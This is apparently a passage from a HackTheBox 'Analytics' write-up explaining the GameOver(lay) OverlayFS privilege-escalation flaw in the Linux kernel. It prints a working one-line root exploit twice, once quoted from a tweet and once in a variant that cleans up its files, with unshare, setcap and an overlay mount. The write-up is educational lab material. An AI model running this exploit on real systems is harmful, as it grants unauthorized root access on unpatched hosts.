 ### GameOver(lay)

#### Identify Vulnerability

A search for the kernel version with the word “vulnerability” returns a bunch of references to GameOver(lay):

![image-20240313211500311](/img/image-20240313211500311.png)

This was a very trendy bug in the information security newcycle in late July 2023, just before Analytics was submitted to HTB on 10 August and released on 7 October.

#### Exploit Explanation

Gameover(lay) is a vulnerability in the OverlayFS, which is a mount filesystem for Linux, and common on many distributions. Julia Evans has a [great post](https://jvns.ca/blog/2019/11/18/how-containers-work--overlayfs/) and cartoon on how OverlayFS is used to power things like Docker containers:

![](/img/overlay.jpeg)

The exploit for Gameover(lay) is surprisingly short, some joking that it “fits in a tweet”:

> Exploit is so easy it fits in a tweet🔥  
> unshare -rm sh -c "mkdir l u w m && cp /u\*/b\*/p\*3 l/;  
> setcap cap\_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/\*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")' <https://t.co/qb53rfeh0y> [pic.twitter.com/O9lcif1Yad](https://t.co/O9lcif1Yad)
>
> — liad eliyahu (@liadeliyahu) [July 28, 2023](https://twitter.com/liadeliyahu/status/1684841527959273472?ref_src=twsrc%5Etfw)

And yet it’s pretty dense. It’s fine to grab an exploit and run it, but it’s better to understand what it’s doing. I’ll break it down in [this video](https://www.youtube.com/watch?v=nlYNuUKiGr0):

In the video I mentioned that the version of Python in `u`, while also having the capability isn’t executed that way. IppSec pointed out to me that the `u` version has different extended attributes, including `trusted.overlay.origin`. That would typically be viewable with `getfattr`, but that isn’t installed on Analytics. It is also visible with Python’s `os` module (and running as root):

```

>>> os.listxattr('l/python3')
['security.capability']
>>> os.listxattr('u/python3')
['security.capability', 'trusted.overlay.origin']

```

It could also be related to the value of the `security.capability` attribute.

#### Run Exploit

The exploit I like is this:

```

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("rm -rf l m u w; id")'

```
